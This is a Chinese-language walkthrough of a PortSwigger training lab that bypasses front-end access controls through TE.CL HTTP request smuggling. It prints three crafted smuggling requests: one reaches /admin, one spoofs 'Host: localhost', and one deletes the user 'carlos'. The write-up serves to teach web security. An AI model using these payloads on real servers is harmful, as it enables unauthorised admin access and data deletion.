 #### TE.CL Bypass

靶场介绍：本实验涉及前端和后端服务器，后端服务器不支持分块编码，在/admin 有一个管理面板，但是前端服务器阻止了对它的访问  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)  
绕过演示：  
首先访问上述靶机，点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-73e620f2aaed5f73488a6dbd2a8f4f2b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155350-3b7997f2-aa0d-1.png)  
访问/admin 路径时会被直接拦截  
[![](assets/1704418275-450d0ac910b7ed283ec2408b35b7c92b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155408-462df67a-aa0d-1.png)  
随后构造以下请求走私载荷并发送两次请求

```plain
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-04aafacab83005754bd33803f04d3e01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155433-54f3054c-aa0d-1.png)  
可以看到和上面的一个靶场一样，都需要本地访问，随后直接增加头部信息即可

```plain
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[![](assets/1704418275-b11a339dd661b8cb2ccece5e8963e6a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155500-65794e80-aa0d-1.png)  
从上面可以看到进入到了 admin 的控制面板，随后调用接口执行删除操作

```plain
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```